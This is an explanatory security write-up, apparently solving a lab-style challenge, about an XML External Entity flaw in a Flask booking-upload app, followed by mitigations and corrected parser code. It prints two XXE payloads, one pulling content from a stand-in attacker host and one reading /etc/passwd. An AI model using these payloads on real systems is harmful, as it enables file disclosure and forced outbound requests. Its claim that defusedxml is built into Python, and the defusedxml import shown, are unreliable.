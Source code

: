 The provided Flask web application is vulnerable to an **XML External Entity (XXE)** attack. This vulnerability arises from the way the application processes XML data, specifically by allowing the resolution of external entities during XML parsing. Below, we'll delve into how this exploitation works and outline best practices developers should follow to prevent such vulnerabilities.

---

### **Understanding XXE Vulnerability in the Application**

1. **Application Overview:**
   - **Functionality:** The app serves a homepage where users can upload an XML file containing their booking details.
   - **Processing:** Upon receiving the uploaded XML file, the application parses it using `lxml.etree` with `resolve_entities` set to `True`. It then extracts specific fields (`name`, `date`, and `secret`) from the XML.
   - **Conditional Response:** If the `secret` field contains the word "congrats" (case-insensitive), a congratulatory page is displayed, indicating a successful exploitation.

2. **Vulnerability Details:**
   - **Parser Configuration:** The `XMLParser` is initialized with `resolve_entities=True`, which allows the parser to process external entities defined within the XML.
   - **Lack of Input Validation:** There's no validation or sanitization of the uploaded XML file to ensure it doesn't contain malicious content.
   - **Conditional Logic Based on XML Content:** The application’s response depends directly on the content of the `secret` field in the XML, making it a potential vector for manipulation.

3. **Exploitation Mechanism:**
   - **Crafting a Malicious XML File:** An attacker can create an XML file that defines an external entity which, when resolved, injects the desired value into the `secret` field. Here's how it can be done:

     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE root [
         <!ENTITY xxe SYSTEM "http://malicious.com/secret">
     ]>
     <booking>
         <name>John Doe</name>
         <date>2023-10-10</date>
         <secret>&xxe;</secret>
     </booking>
     ```

     - **Explanation:**
       - The `<!DOCTYPE>` declaration defines an external entity named `xxe`.
       - The `&xxe;` entity is referenced within the `<secret>` element.
       - When the XML parser processes this file with `resolve_entities=True`, it attempts to fetch the content from `http://malicious.com/secret` and inject it into the `<secret>` field.
       - If the attacker's server at `malicious.com` returns a response containing the word "congrats", the application will display the `CONGRATS_PAGE`, signifying successful exploitation.

   - **Alternative Local File Inclusion:**
     - An attacker might also attempt to read sensitive local files (e.g., `/etc/passwd` on Unix systems) by defining an entity that points to a local file:

       ```xml
       <?xml version="1.0" encoding="UTF-8"?>
       <!DOCTYPE root [
           <!ENTITY xxe SYSTEM "file:///etc/passwd">
       ]>
       <booking>
           <name>John Doe</name>
           <date>2023-10-10</date>
           <secret>&xxe;</secret>
       </booking>
       ```

     - This could potentially leak sensitive information if the application processes or displays the content of the `secret` field without proper sanitization.

---

### **Best Practices to Prevent XXE Vulnerabilities**

1. **Disable External Entity Processing:**
   - **Solution:** Configure XML parsers to disallow the processing of external entities.
   - **Implementation with `lxml`:**
     ```python
     parser = etree.XMLParser(resolve_entities=False, no_network=True, load_dtd=False)
     ```
     - `resolve_entities=False`: Prevents the resolution of external entities.
     - `no_network=True`: Disallows the parser from making network calls.
     - `load_dtd=False`: Disables the loading of external DTDs.

2. **Use Secure Parsers:**
   - Opt for parsers that are less prone to XXE vulnerabilities or have safer defaults.
   - **Example:** Python’s built-in `defusedxml` library is designed to mitigate various XML vulnerabilities, including XXE.

     ```python
     from defusedxml import etree

     parser = etree.DefusedXMLParser()
     tree = etree.fromstring(xml_data, parser)
     ```

3. **Input Validation and Sanitization:**
   - **Whitelist Approach:** Only allow specific, known-safe XML structures and content.
   - **Schema Validation:** Validate incoming XML against a predefined schema to ensure it adheres to expected formats and lacks malicious constructs.

4. **Least Privilege Principle:**
   - Ensure that the application runs with the minimal necessary permissions, especially regarding file system access. This limits the potential damage if an XXE attack succeeds.

5. **Regular Security Audits and Testing:**
   - Perform routine code reviews and security testing (including penetration testing) to identify and remediate vulnerabilities like XXE.

6. **Stay Updated:**
   - Keep all libraries and dependencies updated to benefit from security patches and improvements.

7. **Educate Development Teams:**
   - Ensure that developers are aware of common security vulnerabilities and understand how to mitigate them during the development process.

---

### **Revised Code Example Incorporating Best Practices**

Here's how the vulnerable part of the application can be revised to mitigate XXE vulnerabilities:

```python
from flask import Flask, request, render_template_string
from lxml import etree

app = Flask(__name__)

# ... [rest of the code remains unchanged] ...

@app.route('/', methods=['GET', 'POST'])
def home():
    if request.method == 'POST':
        xml_data = request.files['booking_file'].read()
        # Process the XML data
        try:
            # Secure parser configuration
            parser = etree.XMLParser(resolve_entities=False, no_network=True, load_dtd=False)
            tree = etree.fromstring(xml_data, parser)
            # Extract data from XML
            name = tree.findtext('name')
            date = tree.findtext('date')
            # Check for the secret value set via XXE
            secret = tree.findtext('secret')
            if secret and 'congrats' in secret.lower():
                return render_template_string(CONGRATS_PAGE)
            else:
                return render_template_string('''
                <!DOCTYPE html>
                <html>
                <head>
                    <title>Booking Failed</title>
                    <style>
                        body { font-family: Arial, sans-serif; background-color: #f2f2f2; text-align: center; padding-top: 50px; }
                        h1 { color: #E74C3C; }
                        p { font-size: 18px; color: #555; }
                    </style>
                </head>
                <body>
                    <h1>Booking Failed</h1>
                    <p>Invalid data provided. Please try again.</p>
                </body>
                </html>
                ''')
        except Exception as e:
            return "An error occurred while processing your booking.", 500
    return render_template_string(HOME_PAGE)

# ... [rest of the code remains unchanged] ...
```

**Key Changes:**

- **Secure Parser Configuration:**
  - `resolve_entities=False`: Prevents external entities from being resolved.
  - `no_network=True`: Disallows any network operations during parsing.
  - `load_dtd=False`: Prevents the loading of external DTDs, which are often exploited in XXE attacks.

- **Error Handling:**
  - General exception handling is maintained, but in a production environment, it's advisable to log errors securely without exposing sensitive information to the end-user.

---

### **Conclusion**

XXE vulnerabilities pose significant security risks, allowing attackers to access sensitive data, perform server-side request forgery (SSRF), and even execute arbitrary code in some scenarios. By understanding how such vulnerabilities are exploited and adhering to best practices in XML processing and input validation, developers can safeguard their applications against these threats.

Always prioritize security in the development lifecycle, ensuring that all data inputs are treated with caution and that parsers are configured securely to mitigate known vulnerabilities like XXE.